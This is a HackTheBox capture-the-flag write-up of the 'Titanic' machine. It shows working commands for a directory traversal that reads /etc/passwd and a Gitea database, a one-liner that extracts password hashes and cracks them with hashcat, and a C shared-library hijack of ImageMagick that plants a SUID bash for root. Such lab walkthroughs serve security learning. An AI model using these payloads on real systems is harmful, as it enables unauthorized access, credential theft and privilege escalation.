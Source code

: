 ```yaml
---
title: "HackTheBox - Titanic"
author: Nasrallah
description: ""
date: 2025-06-27 07:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cronjob, gitea, directorytraversal, hashcat]
img_path: /assets/img/hackthebox/machines/titanic
image:
    path: titanic.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[Titanic](https://hacktheboxltd.sjv.io/Nasrallah?u=https://app.hackthebox.com/machines/titanic) from [HackTheBox](https://hacktheboxltd.sjv.io/Nasrallah?u=https://app.hackthebox.com/) starts with a website having it's source code on a gitea instance helping us discover a directory traversal. We exploit that retrieve the gitea db file and crack the found hashes. For root we exploit a cronjob running a vulnerable version of `Magick` and get a root shell.

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.55
Host is up (0.30s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found ssh and http running on an ubuntu machine.

Nmap scripts reveals the domain name `titanic.htb` for for 80, let's add it to `/etc/hosts` file.

### Web

Let's navigate to the web site on port 80.

![page](1.png)

There is no interesting information in this page, let's run a subdomain scan.

```terminal
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://titanic.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.titanic.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 20
________________________________________________

dev                     [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 407ms]
```

We found `dev` subdomain, let's add it to our `/etc/hosts` file and then navigate to it.

![gittea](2.png)

It's `gitea`, let's go to the explore page.

![explore](3.png)

We found two repositories, the flask-app sounds interesting, let's check it out.

```python
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404
```

On line 36 we find that the page `/download` takes a GET request with the parameter `ticket` which basically enables us to download file from the system.

Let's test it.

```bash
curl 'http://titanic.htb/download?ticket=/etc/passwd'
root:x:0:0:root:/root:/bin/bash              
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin   
[...]
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

We managed to read `/etc/passwd`.

I tried reading some files in `/proc/self` but didn't succeed, also the same with history files and ssh private keys.

### Gitea

Gitea uses a db file named `gitea.db` which is a sqlite database stored in `/gitea/gitea.db. But we need to know the location of the gitea install first.

Going to docker-config repository we find just that.

![install](4.png)

The config file reveals that gitea is in `/home/developer/gitea/data`. Now let's grab the db file

```bash
curl 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -o gitea.db
```

With the help of 0xdf's writeup on [compiled](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#) we can use the following command to extract the usernames and the crackable hashes in the database.

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```

```terminal
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Great, now let's crack the hashes.

```terminal
$ hashcat hashes.txt rockyou.txt -m 10900 --user
hashcat (v6.2.6) starting in autodetect mode
Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

Developer's cracked to `25282528`

## **Foothold**

Let's ssh to the box.

```terminal
[★]$ ssh developer@titanic.htb                                                              
developer@titanic.htb's password:     
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: in**     from 10.10.14.152
developer@titanic:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)
developer@titanic:~$ 
```

## **Privilege Escalation**

Navigating to the `/opt` directory we find scripts with the following bash script.

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

The script is using magick to inspect jpg images inside `/opt/app/static/assets/images`, it's also running as a cronjob.

Searching on google for exploits in magick we find a command execution vulnerability <https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8>

To exploit this we need to run the following command which creates a shared library the `magick` will load when it's executed.

The library needs to be in the same directory where the `magick` runs which is `/opt/app/static/assets/images`, luckily for us we have write permissions there as user `developer`.

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /bin/bash /home/developer/bash && chmod +s /home/developer/bash");
    exit(0);
}
EOF
```

![root](5.png)

## **References**

<https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
